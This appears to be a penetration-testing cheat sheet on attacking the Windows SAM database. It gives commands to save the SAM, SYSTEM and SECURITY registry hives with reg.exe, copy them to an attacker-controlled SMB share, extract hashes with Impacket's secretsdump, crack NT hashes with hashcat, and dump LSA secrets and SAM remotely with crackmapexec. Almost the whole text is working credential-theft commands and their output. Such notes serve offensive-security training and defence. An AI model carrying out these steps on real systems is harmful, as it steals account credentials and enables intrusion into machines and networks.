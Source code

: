 ## Attacking SAM

### Copying SAM Registry Hives

hives to copy (requires admin access):

| Registry Hive   | Description                                                                                                                                                |
| --------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `hklm\sam`      | Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext. |
| `hklm\system`   | Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.                              |
| `hklm\security` | Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.                                        |

### Using reg.exe to Copy Registry Hives

Run those commands after launching CMD as admin:
```cmd-session
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save

The operation completed successfully.
```

### Creating Share With smbserver.py
```shell-session
$ sudo python3 /opt/impacket/examples/smbserver.py -smb2support <share name> <share directory>
```

### Moving Hives Copies to Share
```cmd-session
C:\> move sam.save \\<ip address>\<share name>
        1 file(s) moved.

C:\> move security.save \\<ip address>\<share name>
        1 file(s) moved.

C:\> move system.save \\<ip address>\<share name>
        1 file(s) moved.
```

## Dumping Hashes With Impacket's secretsdump.py

### Running secretsdump.py
```shell-session
$ python3 /opt/impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

### Running Hashcat Against NT Hashes
```shell-session
$ sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```

## Remote Dumping & LSA Secrets Considerations

With access to local admin credentials we can target LSA secrets over the network, allowing us to extract credentials from a running service, scheduled task, or application that uses LSA secrets to store passwords.

### Dumping LSA Secrets Remotely
```shell-session
$ crackmapexec smb <target ip> --local-auth -u <username> -p <password> --lsa
```

### Dumping SAM Remotely
```shell-session
crackmapexec smb <target ip> --local-auth -u <username> -p <password> --sam
```
